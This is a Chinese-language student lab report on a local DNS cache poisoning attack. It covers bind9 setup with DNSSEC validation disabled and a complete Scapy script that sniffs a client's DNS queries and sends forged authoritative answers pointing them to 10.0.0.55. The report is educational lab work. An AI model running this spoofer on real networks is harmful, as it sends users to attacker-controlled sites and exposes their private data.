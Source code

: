 # 第9章实验报告

[TOC]

## 实验名称

实现本地 DNS 缓存中毒攻击

## 实验原理

通过污染DNS Cache，用虚假的IP地址信息替换Cache中主机记录的真实IP地址信息，可以改变域名和IP的映射关系，使得用户在访问某网站时被错误引导至攻击者的网站中，从而暴露隐私信息。

## 实验环境

### DNS 服务器

**Ubuntu22.04**作为域名解析服务器，配置`bind9`流程如下

```shell
sudo apt install bind9 bind9utils bind9-doc bind9-host
sudo systemctl status bind9
```

- 安装`bind9`后默认启动

<img src="./img/9-1.png" alt="9-1" style="zoom:67%;" />

```
bind 内容包括
    name DNS服务
    named-chkconfig(named.conf文件检查工具)
    named-checkzone(zone文件检查工具)
    rndc(本地和远程DNS控制工具)
bind-libs: named DNS服务库
bind-utils: 辅助工具
	host, dig, nslookup, nsupdate
bind-chroot: 切根程序用于切换到更安全的目录`/var/named/chroot`

bind 配置文件
/etc/bind/named.conf
其中引用了3个文件
    include "/etc/bind/named.conf.options";        # 默认创建
    include "/etc/bind/named.conf.local";          # 默认创建
    include "/etc/bind/named.conf.default-zones";

```

- bind9设置允许查询和转发，并关闭dnssec

```
// Global Profile

options {
        directory "/var/cache/bind";

		// 允许查询和转发
        forwarders { 8.8.8.8; };
        allow-query { any; };
        recursion yes;

        dnssec-validation no;  // 禁用dnssec
        auth-nxdomain no;
        listen-on-v6 { any; };
};

```

### 客户机

在客户机`/etc/resolv.conf`添加DNS*服务器*的IP地址

```
nameserver 192.168.*.*
```

### 攻击机

- 安装`scrapy`，编写Python程序监听DNS服务器，并伪造DNS权威服务器回复信息。

```python
from scapy.all import *


def spoofDNS(pkt):
    if (DNS in pkt):
        print("sniff: ", pkt[DNS].qd.qname.decode())
        IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', rdata='10.0.0.55', ttl=172800)

        DNSpkt = DNS(
            id = pkt[DNS].id,
            qd = pkt[DNS].qd,
            aa = 1,
            rd = 0,
            qdcount = 1,
            qr = 1,
            ancount = 1,
            nscount = 0,
            an = Anssec
        )
        spoofpkt = IPpkt / UDPpkt / DNSpkt
        send(spoofpkt)

pkt = sniff(filter = 'udp and (src host 192.168.177.134 and dst port 53)',
            iface = "VMware Virtual Ethernet Adapter for VMnet8",
            prn = spoofDNS)

```

